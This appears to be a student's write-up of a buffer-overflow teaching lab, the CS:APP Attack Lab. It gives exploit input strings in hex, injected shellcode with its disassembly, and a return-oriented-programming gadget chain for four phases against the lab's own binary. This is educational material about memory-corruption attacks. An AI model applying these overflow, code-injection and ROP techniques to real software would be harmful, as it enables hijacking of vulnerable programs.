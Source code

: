 # Phase 1

1.txt:
``` 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a6 1c 40 00 00 00 00 00

```
> 0000000000401ca6 \<touch1>:

fill in the buffer area with random number first then place the address of touch1 at the end to overwrite the orignal return address.

# Phase 2
2.txt:

```
48 c7 c7 38 33 4f 2a 68 
da 1c 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
48 1e 68 55 00 00 00 00
```
> cookie: 0x2a4f3338

> 0000000000401cda \<touch2>:

we write the code to be injected into a file first and then translate it to machine code, and then inject it into the starting point of buffer area, 
change the return address (in the same way we did in phase 1) to the address where we place the machine code (the starting point buffer area)


code to be injected:
2.d:
```
2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 38 33 4f 2a 	mov    $0x2a4f3338,%rdi
   7:	68 da 1c 40 00       	pushq  $0x401cda
   c:	c3                   	retq   
```
 **what we did here:** we first move the cookie to the rdi register and pass it (as the first argument) to 
 the function of touch2 (by pushing it's address to the stack so when it return, it pops out the address and execute it.)

# Phase 3

3.txt:
```
48 c7 c7 78 1e 68 55 68 
ff 1d 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
48 1e 68 55 00 00 00 00    
32 61 34 66 33 33 33 38
```
>0000000000401dff \<touch3>:

It is basically the same logic as phase 2, what's different is that it needs to 
convert the cookie into ascii code ( mine is `32 61 34 66 33 33 33 38` ) first, 
and it needs to place the cookie above the return address of getbuf, I place it in the frame of <test> here. 
We need to find the locations by checking the rsp of each breakpoints (the rsp status after getbuf is executed, 
and after it enters test frame...) to find the optimal position to place the code.

# Phase 4
In this phase you simply need to search for the required code by `ctrl + F` inside the document

4.txt:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b4 1e 40 00 00 00 00 00 
38 33 4f 2a 00 00 00 00
df 1e 40 00 00 00 00 00
da 1c 40 00 00 00 00 00
```
> 0000000000401cda \<touch2>:

required code:

```
  401eb2:	8d 87 58 90 90 c3    	lea    -0x3c6f6fa8(%rdi),%eax
required code -> 401eb4 (gadget 1)

  401edd:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
required code: -> 401edf  (gadget 2)

```

> pop : (58) appending a return command (c3) !!!

> mov %rax %rdi : (48 89 c7)

we simple pass the cookie before the slot which will do "popping", and then the command move the "popped" cookie from the stack and pass it to the rax register, move it to the rdi register, and then we call the touch2 function with the cookie as the argument by returning to the corresponding address 

# Conclusion

Glad that I've learnt some skills that will probably never be used in the future.

